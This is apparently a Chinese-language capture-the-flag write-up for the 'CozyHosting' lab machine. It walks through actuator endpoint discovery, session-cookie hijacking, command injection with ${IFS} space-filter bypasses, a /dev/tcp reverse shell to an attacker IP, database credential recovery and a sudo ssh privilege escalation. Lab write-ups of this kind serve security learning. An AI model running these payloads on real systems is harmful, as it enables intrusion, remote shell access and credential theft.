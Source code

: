 ## nmap

![image-20250327102833282](CozyHosting/image-20250327102833282.png)

## 80端口

### dirsearch

```shell
[10:25:17] 200 -  634B  - /actuator
[10:25:18] 200 -   10KB - /actuator/mappings 
[10:25:18] 200 -   15B  - /actuator/health
[10:25:18] 200 -    5KB - /actuator/env
[10:25:18] 200 -   48B  - /actuator/sessions 
[10:25:19] 401 -   97B  - /admin             
[10:25:19] 200 -  124KB - /actuator/beans     
[10:25:48] 500 -   73B  - /error
[10:26:05] 200 -    4KB - /login             
Task Completed  
```

`/actuator/sessions` 下有`kanderson`用户的session，并且每次错误登录都会在该页面下生成一个未认证的session

![image-20250328134909355](CozyHosting/image-20250328134909355.png)

将cookie替换为kanderson的cookie，即可成功访问kanderson的管理页面

![image-20250328135959933](CozyHosting/image-20250328135959933.png)

该功能应该是一个ssh连接的功能，输入本机的ip和root用户，提示连接超时，连接靶机本机试试

`hostname:localhost` `username:root`

![image-20250328140205526](CozyHosting/image-20250328140205526.png)

错误是验证失败，尝试拼接命令执行，以分号分割

在hostname中进行拼接显示无效的hostname，尝试在username中拼接，ping攻击机，攻击机监听icmp包，看是否真的进行命令执行

`hostname:localhost` `username:root;ping 10.10.16.3` 

![image-20250328140542035](CozyHosting/image-20250328140542035.png)

不能包含空格，尝试对空格进行编码

空格过滤绕过的方式有很多

> %20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/
>
> 大括号绕过，如{ls,-l}
>
>  $IFS、$IFS&2、$IFS9、${IFS}
>
> 重定向字符< , <>

尝试之后只有${IFS}可以绕过

## 得到shell

`hostname`:`localhost` `Username`:`root;ping${IFS}10.10.16.3;`

![image-20250328141836128](CozyHosting/image-20250328141836128.png)

```shell
bash -c'bash -i &>/dev/tcp/10.10.16.3/443 >&1'

替换后的reverse shell
bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}&>/dev/tcp/10.10.16.3/443${IFS}<&1'
```

查看进程下面有数据库，反编译jar包，在jar包中找到了数据库连接账号密码

![image-20250328161444685](CozyHosting/image-20250328161444685.png)

![image-20250328153245163](CozyHosting/image-20250328153245163.png)

```
psql -U postgres -h 127.0.0.1
```

![image-20250328161411095](CozyHosting/image-20250328161411095.png)

`admin:manchesterunited`

josh用户可以用这个密码登录，josh有ssh的sudo提权

[ssh | GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```
提权代码

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```